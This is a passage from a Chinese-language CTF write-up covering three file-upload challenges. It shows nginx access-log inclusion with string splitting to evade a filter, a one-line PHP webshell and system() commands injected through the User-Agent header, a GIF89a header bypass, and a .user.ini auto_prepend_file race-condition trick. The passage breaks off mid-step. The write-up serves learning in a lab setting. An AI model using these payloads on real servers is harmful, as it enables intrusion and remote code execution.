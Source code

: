 ### [web160]bypass``

过滤了反引号，我们可以包含日志

```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

但发现 `log`也被过滤了，可以使用`""`来拼接

尝试一句话木马UA头：`<?php eval($_POST[x]);?>`

![image-20230726151942012](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726151942012.png)

上述UA头会引发报错，尝试`<?php system('ls');?>`

![image-20230726152150496](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726152150496.png)

有预期回显，进一步修改：

```
<?php system('ls ../');?>
```

确定flag.php的位置，tac读取flag

```
<?php system('tac ../flag.phpS');?>
```

### [web161]检测文件头

检测文件头

上传 `GIF89a`成功绕过

![image-20230726152634628](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726152634628.png)

其余思路同上
![image-20230726153507813](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230726153507813.png)

### [web162]`.`bypass-竞争上传

检测了文件头，同时过滤了点`.`

**session包含**

**条件竞争：**我们上传的文件如果不符合要求，就会被删除，导致成功上传无法访问，没有用。但是如果我们上传的速度比服务器删的速度快，就可以了。

修改ini文件内容

.user.ini:

```
GIF89a
auto_prepend_file=a
```

随后修改并上传a文件：
